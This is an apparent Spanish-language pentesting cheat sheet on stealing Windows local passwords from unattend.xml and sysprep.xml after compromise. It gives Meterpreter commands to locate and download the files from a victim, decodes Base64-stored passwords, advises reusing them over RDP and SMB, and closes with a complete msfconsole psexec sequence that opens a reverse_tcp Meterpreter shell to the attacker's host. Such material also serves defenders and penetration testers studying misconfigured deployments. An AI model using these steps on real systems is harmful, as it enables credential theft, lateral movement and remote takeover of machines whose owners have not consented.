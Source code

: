 # Extracción de contraseñas desde `unattend.xml` en Windows con Meterpreter

---

## 📋 Resumen

Cuando un administrador despliega Windows con herramientas como Sysprep, puede dejar un archivo `unattend.xml` en el disco.  
Este archivo contiene configuraciones del despliegue, incluyendo a menudo contraseñas locales en texto claro o codificadas en Base64.  
Durante una post-explotación, es muy útil buscar y extraer estas credenciales.

---

# 🔍 ¿Dónde buscar el `unattend.xml`?

Ubicaciones típicas:
```
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\System32\Sysprep\Sysprep.xml
C:\Windows\System32\Sysprep\Panther\Unattend.xml
```

---

#  Pasos para extraerlo desde Meterpreter

### Conseguir una sesión `meterpreter` en la víctima
Por ejemplo, usando un exploit o payload.

### Navegar a las carpetas objetivo
Desde `meterpreter`:
```
cd C:\\Windows\\Panther
```

Listar los archivos:
```
ls
```

Si no está ahí, prueba las otras rutas (`C:\Windows\System32\Sysprep` etc.).

---

### 3️ Descargar el archivo a tu máquina
Una vez lo encuentres:
```
download unattend.xml /ruta/local/donde/guardarlo/
```

Por ejemplo:
```
download unattend.xml /root/Desktop/unattend.xml
```

---

#  Identificar la contraseña en el archivo

Abre el archivo descargado. Busca en las secciones `<UserData>` o `<AutoLogon>` algo así:
```xml
<AutoLogon>
    <Password>
        <Value>P@ssw0rd</Value>
        <PlainText>true</PlainText>
    </Password>
</AutoLogon>
```

O en Base64:
```xml
<Password>
    <Value>UGFzc3dvcmQxMjM=</Value>
    <PlainText>false</PlainText>
</Password>
```

---

# Decodificar la contraseña si está en Base64

Si la contraseña aparece codificada (`PlainText=false`), decódificala con `base64`.

En Linux:
```
echo 'UGFzc3dvcmQxMjM=' | base64 -d
```

Resultado:
```
Password123
```

En Windows (PowerShell):
```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("UGFzc3dvcmQxMjM="))
```

---

#  Consejos
- Aunque `PlainText=false`, la codificación Base64 **no es cifrado**, solo ofuscación: es trivial de recuperar.
- Busca también `sysprep.xml` y cualquier `.xml` dentro de `Panther` o `Sysprep`, ya que pueden contener otras credenciales.
- Una vez obtenida la contraseña, prueba a usarla en otras cuentas locales, RDP, SMB, etc.
---
## Con esto entramos con Psexec:

````
msfconsole
use exploit/windows/smb/psexec
set RHOSTS <IP_OBJETIVO>
set SMBUser <usuario>
set SMBPass <contraseña>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <tu_puerto>
exploit
````
